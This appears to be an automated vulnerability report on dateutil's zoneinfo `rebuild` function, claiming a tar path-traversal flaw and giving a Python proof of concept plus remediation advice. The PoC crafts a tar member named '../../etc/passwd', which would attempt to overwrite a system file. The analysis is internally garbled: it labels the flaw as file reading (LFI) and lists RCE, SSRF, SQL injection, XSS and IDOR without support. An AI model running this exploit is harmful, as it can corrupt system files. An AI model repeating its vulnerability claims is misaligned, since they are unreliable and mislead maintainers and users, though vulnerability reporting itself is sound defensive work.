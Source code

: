 # PAR Security Analysis Report

![高信頼度](https://img.shields.io/badge/信頼度-高-red) **信頼度スコア: 90**

## 脆弱性タイプ

- `LFI`
- `RCE`
- `SSRF`
- `AFO`
- `SQLI`
- `XSS`
- `IDOR`

## PAR Policy Analysis

## 詳細解析

The function `rebuild` uses `TarFile.extract(name, tmpdir)` on user-supplied entries in `zonegroups` without validating or sanitizing the member names. An attacker can supply path traversal sequences (e.g., “../../etc/passwd”) in the `zonegroups` list to cause extraction of arbitrary files from the host filesystem into the temporary directory. This is a classic LFI via tar path traversal vulnerability.

## PoC（概念実証コード）

```text
# PoC: extract /etc/passwd
from dateutil.zoneinfo.rebuild import rebuild
# craft a minimal tar with a malicious member name
import tarfile, io
buf = io.BytesIO()
with tarfile.open(fileobj=buf, mode='w') as tf:
    info = tarfile.TarInfo(name='../../etc/passwd')
    data = b'dummy'
    info.size = len(data)
    tf.addfile(info, io.BytesIO(data))
buf.seek(0)
# write malicious tar to disk
with open('malicious.tar', 'wb') as f:
    f.write(buf.read())
# call rebuild with path traversal entry
datetag = None
rebuild('malicious.tar', zonegroups=['../../etc/passwd'], metadata={})
```

## 修復ガイダンス

### dateutil.zoneinfo.rebuild

- **Required**: Validate and sanitize tar member names before extraction
- **Guidance**: Use a safe extraction routine that rejects paths containing '..' or absolute paths, e.g. check each member.name for '..' or leading '/' and normalize paths before extract.
- **Priority**: high

## 解析ノート

1. Identify TarFile.extract usage on user input zonegroups
2. Recognize lack of path sanitization allows '../' traversal
3. Confirm LFI via hostile tar member names
4. Prepare PoC showing extraction of /etc/passwd
5. Suggest safe extraction validation

